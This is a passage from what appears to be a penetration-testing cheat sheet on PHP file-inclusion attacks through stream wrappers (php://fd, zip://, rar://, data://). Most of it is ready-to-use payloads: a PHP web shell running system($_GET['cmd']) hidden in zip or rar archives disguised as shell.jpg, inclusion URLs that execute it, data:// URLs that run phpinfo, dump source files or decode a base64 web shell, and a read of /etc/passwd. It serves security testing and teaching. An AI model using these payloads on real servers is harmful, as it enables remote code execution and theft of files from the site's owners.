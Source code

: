 In the post a tool to perform this automatically was also leaked: [php\_filters\_chain\_oracle\_exploit](https://github.com/synacktiv/php\_filter\_chains\_oracle\_exploit).

### php://fd

This wrapper allows to access file descriptors that the process has open. Potentially useful to exfiltrate the content of opened files:

```php
echo file_get_contents("php://fd/3");
$myfile = fopen("/etc/passwd", "r");
```

You can also use **php://stdin, php://stdout and php://stderr** to access the **file descriptors 0, 1 and 2** respectively (not sure how this could be useful in an attack)

### zip:// and rar://

Upload a Zip or Rar file with a PHPShell inside and access it.\
In order to be able to abuse the rar protocol it **need to be specifically activated**.

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# To compress with rar
rar a payload.rar payload.php;
mv payload.rar shell.jpg;
rm payload.php
http://example.com/index.php?page=rar://shell.jpg%23payload.php
```

### data://

```
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data:text/plain,<?php phpinfo(); ?>
http://example.net/?page=data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Note that this protocol is restricted by php configurations **`allow_url_open`** and **`allow_url_include`**
